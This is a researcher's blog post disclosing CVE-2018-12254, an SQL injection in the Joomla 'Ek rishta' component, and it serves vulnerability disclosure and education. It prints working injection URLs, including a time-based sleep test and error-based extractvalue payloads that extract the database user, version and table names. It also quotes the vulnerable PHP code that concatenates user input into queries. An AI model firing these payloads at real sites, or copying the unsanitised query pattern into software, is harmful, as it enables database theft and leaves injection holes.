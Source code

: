 ```yaml
---
title: "[CVE-2018-12254] SQL Injection Joomla Component"
layout: post
date: '2018-06-13 15:33:00'
description: "[CVE-2018-12254] SQL Injection Joomla Component"
image: https://i.imgur.com/AYHQAWL.png
tags:
- cve
- poc
author: Guilherme "k33r0k" Assmann
---
```


The vulnerability was found in a rather unusual way. A few days ago Daybson was setting up a new test lab for the Desec Security's Professional Penstest course, when he invited me to test it. I had no idea which was the lab's vulnerability, so I logged in and started testing. I noticed that my username was in the following URL `index.php/home/requested_user/Sent%20interest/corp`, which seemed a little off to me, maybe there was some file generated during the registration or something, but in fact I noticed that it wasn't a file but an URL parameter.

The first obvious test was to add single quotes to it and see what was returned:
  
`url:http://[HOST]/index.php/home/requested_user/Sent%20interest/1'or%20a%23`

![](https://i.imgur.com/AYHQAWL.png)
 
So, having this error, we realize we have a SQL injection!

Making another test, just to be sure:

`url:http://[HOST]/index.php/home/requested_user/Sent%20interest/1'or%20sleep(5)%23`

![](https://i.imgur.com/4LUyOHe.png)

All ok to this point but I noticed a limitation when trying to dump the database the classic way, even when using blind. It seemed strange to the that I didn't get a response for some queries, but I figured out I was somewhat limited and after some research I realized I'd have to dump it using error based with XPATH.

`url:http://[HOST]/index.php/home/requested_user/Sent%20interest/1'%20or%20extractvalue(1,user())%20%23`

![](https://i.imgur.com/xZwEZAI.png)
  
`url:http://[HOST]/index.php/home/requested_user/Sent%20interest/1'%20or%20extractvalue(1,version())%20%23`

![](https://i.imgur.com/M7LCI6d.png)

`url:http://[HOST]/index.php/home/requested_user/Sent%20interest/1'%20or%20extractvalue(0x0a,concat(0x0a,(select%20database())))%20%23`

![](https://i.imgur.com/8mRdLKG.png)
  
`url:http://[HOST]/index.php/home/requested_user/Sent%20interest/1'%20or%20extractvalue(0x0a,concat(0x0a,(select%20table_name%20from%20information_schema.tables)))%20%23`

![](https://i.imgur.com/QU7faTN.png)

Well, up to this stage, the best way would be creating a script to dump it!

After this I was still curious about how the component was capturing this URL's part, so I downloaded and searched the source code until I found this part:
  
`router.php`

```
238 - if(!empty($segments\[2\]) && $segments\[0\]=='requested_user') {
239 - 	$c_id	= EkrishtaUsrID($segments\[2\]);
240 - 	if($segments\[1\] == "Sent interest")
241 -	  $vars\['rid'\] = $c_id;
242 -	else
243 -	  $vars\['cid'\] = $c_id;
244 - }
```

After a quick glance we know that `$c_id` is capturing the URL's bit that contains our username and adding it to an array (`$vars`). We can basically guess that the `EkrishtaUsrID()` function is searching our ID or username in the database but let's see what it's really doing.

Searching for the `EkrishtaUsrID()` function, I found it in the same file and it's possible to see that there's a sanitization failure in the lines `295` and `305`.

```
291 - function EkrishtaUsrName($uid)
292 - {
293 -
294 -	 $db = JFactory::getDBO();
295 -	 $sql = "SELECT \`username\` FROM #__users WHERE \`id\`='". $uid."'";
296 -	 $db->setQuery($sql);
297 - 	 return $db->loadResult();
298 -
299 - }
300 -
301 - function EkrishtaUsrID($uid_name)
302 - {
303 -
304 - 	 $db = JFactory::getDBO();
305 -	 $sql = "SELECT \`id\` FROM #\_\_users WHERE \`username\`= '" .$uid\_name."'";
306 -	 $db->setQuery($sql);
307 -	 return $db->loadResult();
308 -
309 - }
```

Closing up the story the vulnerability I found wasn't supposed the be in the lab's syllabus, neither signed or related to any another discovery, so I just captured myself a CVE :).

### Exploit

[Joomla Component Ek rishta 2.10 - SQL Injection](https://www.exploit-db.com/exploits/44893/){:target="_blank" rel="noopenner noreferrer"}

### External link

[CVE-2018-12254 - SQL Injection Joomla Component - PT-BR](https://desecsecurity.com/blog/post/cve-2018-12254-sql-injection-joomla-component){:target="_blank" rel="noopenner noreferrer"}


